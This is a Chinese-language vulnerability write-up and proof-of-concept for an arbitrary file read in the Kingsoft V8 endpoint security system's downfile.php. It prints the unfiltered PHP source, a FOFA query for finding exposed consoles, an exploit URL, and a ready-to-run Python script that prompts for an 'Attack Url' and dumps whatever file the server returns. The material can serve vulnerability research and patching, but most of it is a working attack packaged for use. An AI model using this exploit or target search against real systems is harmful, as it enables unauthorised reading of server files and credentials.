


# 金山 V8 终端安全系统 downfile.php 任意文件读取漏洞

## 漏洞描述

金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件

## 漏洞影响

```
金山 V8 终端安全系统
```

## FOFA

```
title="在线安装-V8+终端安全系统Web控制台"
```

## 漏洞复现


存在漏洞的文件 **/Console/htmltopdf/downfile.php**


```php
<?php	
			$filename= $_GET["filename"];
            
			$filename=iconv("UTF-8","GBK//IGNORE", $filename);

   			header("Cache-Control: public"); 
			header("Content-Description: File Transfer"); 
			header('Content-disposition: attachment; filename='.$filename); //文件名   
			header("Content-Type: application/zip"); //zip格式的   
			header("Content-Transfer-Encoding: binary"); //告诉浏览器，这是二进制文件    
			header('Content-Length: '. filesize($filename)); //告诉浏览器，文件大小   
			@readfile($filename);
			?>
```


文件中没有任何的过滤 通过filename参数即可下载任意文件


POC为


```plain
http://xxx.xxx.xxx.xxx/htmltopdf/downfile.php?filename=downfile.php
```





## 漏洞POC


```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 金山 V8 终端安全系统 任意文件读取漏洞                          \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/htmltopdf/downfile.php?filename=downfile.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "$filename" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞 , 响应为:\n{} \033[0m".format(target_url, response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```




